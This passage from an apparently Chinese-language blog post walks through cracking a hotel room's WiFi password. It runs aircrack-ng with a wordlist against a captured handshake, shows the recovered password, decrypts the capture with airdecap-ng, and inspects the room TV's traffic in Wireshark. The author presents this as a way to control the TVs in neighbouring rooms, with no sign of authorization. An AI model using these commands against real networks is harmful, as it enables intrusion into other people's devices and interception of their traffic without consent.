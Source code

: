     ![图片](https://mmbiz.qpic.cn/mmbiz_png/RbCJNSG1XgvdWZR6MdG18BmWtMbqnYF3GKtCHRhhZdVMtfrqwyEF2l0hCiaiav06ia0aEMlbtOMibNO4orP4RqqP6Q/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)Untitled![图片](https://mmbiz.qpic.cn/mmbiz_png/RbCJNSG1XgvdWZR6MdG18BmWtMbqnYF3R70WvIehNdC9bjyV0h8np0zmPzEsq1qYHXpV94tjXa1lAL87dfknQw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)Untitled
    
    开始破解
    
    ```
    aircrack-ng -w password.txt capture.cap  
    
    ```
    
    ![图片](https://mmbiz.qpic.cn/mmbiz_png/RbCJNSG1XgvdWZR6MdG18BmWtMbqnYF3ib81mMZuibDhd8mGMUqnVNcFzYceKicjsW1IpsBGJLABsUErPEy718iaXQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)Untitled
    
    密码91684372
    
    这样在酒店就可以控制隔壁那些房间的电视投影。
    
    8位数字虚拟机要跑一个半小时，跑密码时间取决于电脑性能。可以尝试一下-p参数指定cpu数量。
    
9.  解密捕获的流量包数据
    
    ```
    airdecap-ng -e room-1028-440 -p 91684372 capture.cap  
    -e 目标WiFi名称ASCII值  
    
    ```
    
    解密后，默认保存为 待解密文件名称加-dec.cap
    
    ![图片](https://mmbiz.qpic.cn/mmbiz_png/RbCJNSG1XgvdWZR6MdG18BmWtMbqnYF3e2EHJeTXzSrXexqKgfHp6x5puJHh4XticyH5NF8cMffYKvw4p8ayBBw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)Untitled
    
    使用wireshark打开解密后的文件
    
    ![图片](https://mmbiz.qpic.cn/mmbiz_png/RbCJNSG1XgvdWZR6MdG18BmWtMbqnYF3RlAkIEvp7trAETmgnibJibc8pLWswFIaQWZ2vYLxtvPdibcibGRWgXvYsQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)Untitled
    
    房间的电视机对外通信可能使用的43.254这个IP。我本机是43.43。
    
    那么一瞬间，我就明白了HTTP为什么如此不安全了。